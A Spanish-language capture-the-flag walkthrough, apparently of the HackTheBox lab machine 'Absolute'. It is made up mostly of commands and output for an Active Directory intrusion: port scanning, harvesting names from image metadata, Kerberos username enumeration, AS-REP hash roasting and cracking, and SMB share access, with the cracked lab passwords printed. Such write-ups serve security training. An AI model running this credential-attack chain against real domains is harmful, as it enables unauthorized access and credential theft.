



# Absolute

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `Nmap` para ver los puertos que están expuestos en la máquina **`Absolute`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.181 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-22 01:40 CET
Nmap scan report for 10.10.11.181
Host is up (0.054s latency).
Not shown: 65323 closed tcp ports (reset), 185 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49686/tcp open  unknown
49687/tcp open  unknown
49701/tcp open  unknown
49709/tcp open  unknown
49728/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.16 seconds
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.181
	[*] Open ports: 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49686,49687,49701,49709,49728

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49686,49687,49701,49709,49728 10.10.11.181 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-22 01:45 CET
Nmap scan report for dc.absolute.htb (10.10.11.181)
Host is up (0.069s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Absolute
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-22 00:45:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-22T00:47:09+00:00; +46s from scanner time.
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Not valid before: 2023-07-17T21:11:52
|_Not valid after:  2024-07-16T21:11:52
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Not valid before: 2023-07-17T21:11:52
|_Not valid after:  2024-07-16T21:11:52
|_ssl-date: 2025-01-22T00:47:09+00:00; +46s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Not valid before: 2023-07-17T21:11:52
|_Not valid after:  2024-07-16T21:11:52
|_ssl-date: 2025-01-22T00:47:09+00:00; +46s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.absolute.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.absolute.htb
| Not valid before: 2023-07-17T21:11:52
|_Not valid after:  2024-07-16T21:11:52
|_ssl-date: 2025-01-22T00:47:09+00:00; +46s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
49728/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2019 (95%), Windows Server 2019 (92%), Microsoft Windows 10 1909 (92%), Microsoft Windows 10 1909 - 2004 (92%), Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2022 (91%), Microsoft Windows Server 2016 (90%), Microsoft Windows 10 20H2 - 21H1 (90%), Microsoft Windows 10 21H2 (90%), Microsoft Windows 10 20H2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-22T00:47:04
|_  start_date: N/A
|_clock-skew: mean: 45s, deviation: 0s, median: 45s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   92.19 ms 10.10.16.1
2   52.04 ms dc.absolute.htb (10.10.11.181)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.79 seconds
```


```bash
❯ xsltproc targetedXML > index.html
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ nxc smb 10.10.11.181
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)

❯ ldapsearch -x -H ldap://10.10.11.181 -s base | grep defaultNamingContext
defaultNamingContext: DC=absolute,DC=htb
```


<figure><figcaption></figcaption></figure>


```bash
❯ whatweb http://absolute.htb/
http://absolute.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.181], JQuery[3.3.1], Microsoft-IIS[10.0], Script, Title[Absolute]

❯ gobuster dir -u http://absolute.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://absolute.htb/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/Images               (Status: 301) [Size: 150] [--> http://absolute.htb/Images/]
/images               (Status: 301) [Size: 150] [--> http://absolute.htb/images/]
/css                  (Status: 301) [Size: 147] [--> http://absolute.htb/css/]
/js                   (Status: 301) [Size: 146] [--> http://absolute.htb/js/]
/fonts                (Status: 301) [Size: 149] [--> http://absolute.htb/fonts/]
/IMAGES               (Status: 301) [Size: 150] [--> http://absolute.htb/IMAGES/]
/Fonts                (Status: 301) [Size: 149] [--> http://absolute.htb/Fonts/]
```


<figure><figcaption></figcaption></figure>



```bash
#!/bin/bashi

for i in {1..100}; do
      echo "http://absolute.htb/images/hero_$i.jpg"
done | xargs -n 1 -P 20 wget -q --show-progress 2>/dev/null
```



```bash
❯ chmod +x imageExtractor.sh
❯ ./imageExtractor.sh
❯ ls -l
.rw-rw-r-- kali kali 398 KB Tue Jun  7 21:45:20 2022  hero_1.jpg
.rw-rw-r-- kali kali 365 KB Tue Jun  7 21:57:42 2022  hero_2.jpg
.rw-rw-r-- kali kali 372 KB Tue Jun  7 21:57:46 2022  hero_3.jpg
.rw-rw-r-- kali kali 2.0 MB Tue Jun  7 21:58:02 2022  hero_4.jpg
.rw-rw-r-- kali kali 1.7 MB Tue Jun  7 21:58:08 2022  hero_5.jpg
.rw-rw-r-- kali kali 5.2 MB Tue Jun  7 21:58:32 2022  hero_6.jpg
```


```bash
❯ exiftool hero_1.jpg
ExifTool Version Number         : 13.10
File Name                       : hero_1.jpg
Directory                       : .
...[snip]...
Artist                          : James Roberts
...[snip]...
Author                          : James Roberts
```


```bash
❯ exiftool hero_1.jpg -author | awk '{print $NF}' FS=':'
 James Roberts
❯ exiftool hero* -author | awk '{print $NF}' FS=':' | grep -vE '.jpg|image'
 James Roberts
 Michael Chaffrey
 Donald Klay
 Sarah Osvald
 Jeffer Robinson
 Nicole Smith
❯ exiftool hero* -author | awk '{print $NF}' FS=':' | grep -vE '.jpg|image' > employees.txt
❯ cat users.txt
 James Roberts
 Michael Chaffrey
 Donald Klay
 Sarah Osvald
 Jeffer Robinson
 Nicole Smith
```


```bash
❯ wget https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
--2025-01-22 02:03:41--  https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
Resolviendo gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con gist.githubusercontent.com (gist.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 2086 (2,0K) [text/plain]
Grabando a: «namemash.py»

namemash.py                                               100%[===================================================================================================================================>]   2,04K  --.-KB/s    en 0s      

2025-01-22 02:03:41 (36,7 MB/s) - «namemash.py» guardado [2086/2086]

❯ chmod +x namemash.py

❯ python3 namemash.py employees.txt > possible_users.txt


❯ cat possible_users.txt
jamesroberts
robertsjames
james.roberts
roberts.james
robertsj
...[snip]...
```


```bash
❯ kerbrute userenum --dc 10.10.11.181 -d absolute.htb possible_users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/22/25 - Ronnie Flathers @ropnop

2025/01/22 02:04:47 >  Using KDC(s):
2025/01/22 02:04:47 >  	10.10.11.181:88

2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.roberts@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	m.chaffrey@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	s.osvald@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	d.klay@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.robinson@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	n.smith@absolute.htb
2025/01/22 02:04:47 >  Done! Tested 66 usernames (6 valid) in 0.411 seconds
```


```bash
❯ cat users.txt
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.roberts@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	m.chaffrey@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	s.osvald@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	d.klay@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.robinson@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	n.smith@absolute.htb

❯ cat users.txt | awk '{print $NF}' | awk '{print $1}' FS='@' | sponge users.txt

❯ cat users.txt
j.roberts
m.chaffrey
s.osvald
d.klay
j.robinson
n.smith
```


```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt absolute.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:9f213736a22fc3887d77727ca9bf30a0$2de99f7f0b98034eb2d2d2b371e7c02595b340ed35e16cef2697bcd317bd2eb48e56eedce376f65dbad1d084d6c3dcbfaf071cb31aa70d35524656fb9c98588856593e6f071a0fbb6847251a24a33f993ca282b186b676f73ba735b1f54bd03fc109ece63641392e29075540c899bf8b4fb773946bb85df432f4473dffd13db0b38f576765e2320b26f7ef4577c2afa467033118075a753e51e1f8e736e58fc4f2066734014584b957631bec8751a4a4c71073009eb9b2c1744c93d644438e5d73c11cacbae2aca12fcd8330a18f0777b1b3cba8957c3092ccf4a2e220d90fcfe966693bec63facd8b3fbbd5
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```


```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

...[snip]...

$krb5asrep$23$d.klay@ABSOLUTE.HTB:9f213736a22fc3887d77727ca9bf30a0$2de99f7f0b98034eb2d2d2b371e7c02595b340ed35e16cef2697bcd317bd2eb48e56eedce376f65dbad1d084d6c3dcbfaf071cb31aa70d35524656fb9c98588856593e6f071a0fbb6847251a24a33f993ca282b186b676f73ba735b1f54bd03fc109ece63641392e29075540c899bf8b4fb773946bb85df432f4473dffd13db0b38f576765e2320b26f7ef4577c2afa467033118075a753e51e1f8e736e58fc4f2066734014584b957631bec8751a4a4c71073009eb9b2c1744c93d644438e5d73c11cacbae2aca12fcd8330a18f0777b1b3cba8957c3092ccf4a2e220d90fcfe966693bec63facd8b3fbbd5:Darkmoonsky248girl
```


```bash
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION 
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
```


```bash
❯ nxc smb 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k --shares
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
SMB         10.10.11.181    445    DC               [*] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.181    445    DC               Shared                          
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share 
```


```bash
❯ impacket-getTGT absolute.htb/d.klay:Darkmoonsky248girl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in d.klay.ccache
❯ export KRB5CCNAME=$(pwd)/d.klay.ccache
❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Absolute/Absolute/content/d.klay.ccache
Default principal: d.klay@ABSOLUTE.HTB

Valid starting     Expires            Service principal
22/01/25 02:29:08  22/01/25 06:29:08  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 22/01/25 06:29:08, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```


```bash
❯ catnp /etc/resolv.conf
# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 192.168.249.2
search localdomain
nameserver 10.10.11.181
```


```bash
❯ ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b 'dc=absolute,dc=htb' "(description=*)" description
SASL/GSSAPI authentication started
SASL username: d.klay@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.

...[snip]...

# svc_smb, Users, absolute.htb
dn: CN=svc_smb,CN=Users,DC=absolute,DC=htb
description: AbsoluteSMBService123!
```


```bash
❯ nxc smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\svc_smb:AbsoluteSMBService123! STATUS_ACCOUNT_RESTRICTION 

❯ nxc smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
```


<pre class="language-bash"><code class="lang-bash">❯ nxc smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k --shares
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
SMB         10.10.11.181    445    DC               [*] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.181    445    DC               Shared          READ            
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share 
<strong>
</strong><strong>❯ nxc smb 10.10.11.181 -u 'svc_smb' -p 'AbsoluteSMBService123!' -k -M spider_plus
</strong>SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
SPIDER_PLUS 10.10.11.181    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.181    445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.11.181    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.181    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.181    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.181    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.181    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.10.11.181    445    DC               [*] Enumerated shares
SMB         10.10.11.181    445    DC               Share           Permissions     Remark
SMB         10.10.11.181    445    DC               -----           -----------     ------
SMB         10.10.11.181    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.181    445    DC               C$                              Default share
SMB         10.10.11.181    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.181    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.181    445    DC               Shared          READ            
SMB         10.10.11.181    445    DC               SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.10.11.181    445    DC               [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.11.181.json".
SPIDER_PLUS 10.10.11.181    445    DC               [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, Shared, SYSVOL)
SPIDER_PLUS 10.10.11.181    445    DC               [*] SMB Readable Shares:  4 (IPC$, NETLOGON, Shared, SYSVOL)
SPIDER_PLUS 10.10.11.181    445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.181    445    DC               [*] Total folders found:  16
SPIDER_PLUS 10.10.11.181    445    DC               [*] Total files found:    7
SPIDER_PLUS 10.10.11.181    445    DC               [*] File size average:    10.57 KB
SPIDER_PLUS 10.10.11.181    445    DC               [*] File size min:        22 B
SPIDER_PLUS 10.10.11.181    445    DC               [*] File size max:        66 KB
</code></pre>


```bash
❯ cat /tmp/nxc_hosted/nxc_spider_plus/10.10.11.181.json | jq

...[snip]...

  "Shared": {
    "compiler.sh": {
      "atime_epoch": "2022-06-09 10:30:03",
      "ctime_epoch": "2022-06-08 15:20:32",
      "mtime_epoch": "2022-09-01 19:02:23",
      "size": "72 B"
    },
    "test.exe": {
      "atime_epoch": "2022-06-09 10:30:03",
      "ctime_epoch": "2022-06-08 06:13:07",
      "mtime_epoch": "2022-09-01 19:02:23",
      "size": "66 KB"
    }
```


```bash
❯ impacket-getTGT absolute.htb/svc_smb:'AbsoluteSMBService123!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_smb.ccache
❯ export KRB5CCNAME=$(pwd)/svc_smb.ccache
❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Absolute/Absolute/content/svc_smb.ccache
Default principal: svc_smb@ABSOLUTE.HTB

Valid starting     Expires            Service principal
22/01/25 02:42:32  22/01/25 06:42:32  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 22/01/25 06:42:32, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```


```bash
❯ impacket-smbclient absolute.htb/svc_smb@dc.absolute.htb -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# ls
[-] No share selected
# shares
ADMIN$
C$
IPC$
NETLOGON
Shared
SYSVOL
# use Shared
# ls
drw-rw-rw-          0  Thu Sep  1 19:02:23 2022 .
drw-rw-rw-          0  Thu Sep  1 19:02:23 2022 ..
-rw-rw-rw-         72  Thu Sep  1 19:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Thu Sep  1 19:02:23 2022 test.exe
# mget *
[*] Downloading compiler.sh
[*] Downloading test.exe
```


```bash
❯ catnp compiler.sh
#!/bin/bash

nim c -d:mingw --app:gui --cc:gcc -d:danger -d:strip $1
```


<figure><figcaption></figcaption></figure>


```bash
❯ echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
1
❯ catnp /proc/sys/net/ipv4/ip_forward
1
❯ sudo iptables -A FORWARD -i tun0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
❯ sudo iptables -A FORWARD -i eth0 -o tun0 -j ACCEPT
❯ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.249.128  netmask 255.255.255.0  broadcast 192.168.249.255
        inet6 fe80::17ec:5b0f:745a:a939  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:8f:cb:51  txqueuelen 1000  (Ethernet)
        RX packets 783346  bytes 586464094 (559.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 500751  bytes 166723886 (159.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

❯ sudo iptables -t nat -A POSTROUTING -s 192.168.249.0/24 -o tun0 -j MASQUERADE
```


```powershell
PS C:\temp> ping -n 1 10.10.11.181

Pinging 10.10.11.181 with 32 bytes of data:
Request timed out.

Ping statistics for 10.10.11.181:
    Packets: Sent = 1, Received = 0, Lost = 1 (100% loss),

PS C:\temp> ping -n 1 10.10.16.5

Pinging 10.10.11.181 with 32 bytes of data:
Request timed out.

Ping statistics for 10.10.11.181:
    Packets: Sent = 1, Received = 0, Lost = 1 (100% loss),  

PS C:\temp> route add 10.10.10.0/23 mask 255.255.254.0 192.168.249.128
 OK!
PS C:\temp> route add 10.10.16.0/16 mask 255.255.0.0 192.168.249.128
 OK!

PS C:\temp> ping -n 1 10.10.11.181

Pinging 10.10.11.181 with 32 bytes of data:
Reply from 10.10.11.181: bytes=32 time=43ms TTL=126

Ping statistics for 10.10.11.181:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 43ms, Maximum = 43ms, Average = 43ms
PS C:\temp> ping -n 1 10.10.16.5

Pinging 10.10.16.5 with 32 bytes of data:
Reply from 10.10.16.5: bytes=32 time<1ms TTL=64

Ping statistics for 10.10.16.5:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
 
```


